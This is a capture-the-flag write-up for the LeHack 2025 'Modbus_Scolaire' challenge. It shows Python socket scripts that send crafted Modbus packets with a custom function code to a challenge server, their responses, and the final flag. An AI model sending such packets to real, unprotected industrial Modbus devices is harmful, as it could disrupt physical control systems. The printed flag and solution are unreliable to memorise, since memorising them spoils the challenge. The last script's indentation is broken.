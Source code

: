 # LeHack 2025 Wargame modbus_scolaire writeup
This is my writeup for the LeHack Wargame 2025 challenge Modbus_Scolaire.

## Challenge description
Un unprotected modbus server is freely responding on the network. Can you break it? Flag format : LeHACK{the_flag}

Basic modbus packets will look like this :

    \x00\x01 Transaction ID
    \x00\x00 Protocol ID
    \x00\x0A Length: 10 bytes after this field
    \x01 Unit ID

-> Function code : 1 byte

-> Payload : the rest

modbus_scolaire.wargame.rocks:1502

Direct bruteforce is not recommended : the amount of combinations is above 10^{12} and we close at 8:00 AM

## Google what a function code does
Modbus function codes are 8 bit long numerical identifiers that dictate the specific operations performed by a Modbus device. These codes instruct the slave device on actions like reading or writing data to coils or registers. They are part of the Protocol Data Unit (PDU) within a Modbus message. 
Modbus has these common function codes:
| Function Code | Description             |
|---------------|-------------------------|
| 0x01          | Read Coils              |
| 0x02          | Read Discrete Inputs    |
| 0x03          | Read Holding Registers  |
| 0x04          | Read Input Registers    |
| 0x05          | Write Single Coil       |
| 0x06          | Write Single Register   |
| 0x0F          | Write Multiple Coils    |

## Communicate with modbus server

Start by initiating normal contact

  ```python
import socket
  
HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

packet = (
    b'\x00\x01'  # Transaction ID
    b'\x00\x00'  # Protocol ID
    b'\x00\x0A'  # Length (10 bytes after this)
    b'\x01'      # Unit ID
    b'\x01'      # Function Code: Read Coils
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(packet)
    data = s.recv(1024)
    print("Received:", data)
```
Response:
`Ack`
--> Cool, modbus notices us.
Loop through all of the function codes and realise this is not the way, everything only gives back `Ack`. 
Try out funny numbers as function code like `\x69` or `\x42`.
`\x42` actually changes the response to `func42............`!
Progress!

## Prepare different payloads
So we know the rest of the payload is 8 bits long, let's prepare a list of payloads!
  ```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

test_payloads = [
    b'\x00\x00\x00\x01\x00\x00\x00\x00',  # read 1 register at 0
    b'\x00\x00\x00\x08\x00\x00\x00\x00',  # read 8 registers at 0
    b'\x13\x37\x00\x01\x00\x00\x00\x00',  # leet + read 1
    b'\xDE\xAD\xBE\xEF\x00\x00\x00\x01',  # hex magic

]

for payload in test_payloads:
    packet = (
        b'\x00\x01' +               # Transaction ID
        b'\x00\x00' +               # Protocol ID
        b'\x00\xFF' +               # Length (10 bytes after this field)
        b'\x01' +                   # Unit ID
        b'\x42' +                   # Function code 0x42
        payload                     # 8 bytes payload
    )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```

Responses
```shell

Sent payload: b'\x00\x00\x00\x01\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x00\x00\x00\x08\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x13\x37\x00\x01\x00\x00\x00\x00' | Received: b'func421955......\n'
Sent payload: b'\xde\xad\xbe\xef\x00\x00\x00\x01' | Received: b'func42......190239\n'
```
Oh hello there, seems like we're halfway there.

## Combine the working payloads to one
Try around different variations of payload until you're sure that the relevant parts are `\x13\x37\` and `\xBE\xEF`

## Final working file
```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

payload = b'\x13\x37\xBE\xEF\x01\x00\x00\x00'


  packet = (
      b'\x00\x01' +               # Transaction ID
      b'\x00\x00' +               # Protocol ID
      b'\x00\xFF' +               # Length (10 bytes after this field)
      b'\x01' +                   # Unit ID
      b'\x42' +                   # Function code 0x42
      payload                     # 8 bytes payload
  )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```
Enjoy your flag `LeHACK{unsafe_modbus_packets_4_win}`
